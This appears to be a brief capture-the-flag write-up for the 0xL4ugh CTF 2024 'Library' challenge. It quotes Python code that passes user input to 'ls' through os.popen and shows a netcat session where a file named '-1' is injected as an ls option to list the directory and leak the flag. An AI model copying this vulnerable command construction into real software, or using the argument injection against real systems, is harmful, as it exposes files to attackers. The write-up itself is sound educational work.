
<!DOCTYPE html>
<html>
 
<body>
    <h1>Library - 0xL4ugh CTF 2024 </h1>

    <h2>Challenge Description</h2>
    <p>Built a book library, however my friend says that i made a nasty mistake!

Author: zAbuQasem

nc 172.190.120.133 50003
 
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        <li>i download code and see a vounerable code in  challenge.py in this function</li>
<pre>
ef check_file_presence():
    book_name = shlex.quote(console.input("[bold blue]Enter the name of the book (file) to check:[/bold blue] "))
    command = "ls " + book_name

    try:
        result = os.popen(command).read().strip()
        print(result)
        if result == book_name:
            console.print(f"[bold green]The book is present in the current directory.[/bold green]")
        else:
            console.print(f"[bold red]The book is not found in the current directory.[/bold red]")
    except Exception as e:
        console.print(f"[bold red]Error: {e}[/bold red]")</pre>
       </pre>
   this code<pre>book_name = shlex.quote(console.input("[bold blue]Enter the name of the book (file) to check:[/bold blue] "))
    command = "ls " + book_name</pre> will check exist of code with run command ls if have any book so i create book via options 7 and 2  and chaeck file exist with 8
and see flag in list of files after run ls
<pre>
nc 172.190.120.133 50003

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 7

Book Manager:
1. Save Existing
2. Create new book
Enter your choice (1-2): 2
Enter book title: -1
Enter book author: 1
1Enter book ISBN: 
Enter number of copies: 1
Book saved successfully

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 8
Enter the name of the book (file) to check: -1
$FLAG
*
-1
0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
2
<bound method SaveFile.__init__ of <__main__.SaveFile object at 0x7f7b767b5790>>
AAA 0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
FLAG
challenge.py
echo 'Hello'
echo hello
exec.sh
sex
The book is not found in the current directory.

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 
</pre>

    
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for command injection in python code</p>
</body>
</html>

 